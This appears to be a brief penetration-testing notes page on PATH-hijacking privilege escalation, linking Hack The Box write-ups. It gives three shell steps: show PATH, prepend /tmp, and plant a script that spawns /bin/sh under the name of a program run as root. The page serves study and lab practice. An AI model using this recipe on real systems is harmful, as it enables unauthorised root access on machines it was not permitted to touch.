 Path hijacking within privilege escalation refers to the manipulation of file paths or environment variables to trick a system into executing malicious code or commands with elevated privileges. This technique is commonly used by attackers to gain unauthorized access to sensitive data or carry out malicious activities on a compromised system. 
By manipulating the path that the system uses to locate executable files, an attacker can redirect the system to run their own malicious code instead of the intended legitimate program. This allows the attacker to escalate their privileges and potentially gain full control over the system.

# Guide

If an application is being run, as root, without a full path being used, see [HTB: Lazy | 0xdf hacks stuff](https://0xdf.gitlab.io/2020/07/29/htb-lazy.html#priv-mitsos--root) and [Hack The Box - Zipper - 0xRick’s Blog](https://0xrick.github.io/hack-the-box/zipper/)

1. By default, `$PATH`

```
echo $PATH
```

2. Change the path

```
PATH=/tmp:$PATH
```

3. Place your own executable within the path location under the application name which is known to be executed, e.g.

```
#!/bin/sh 

/bin/sh
```
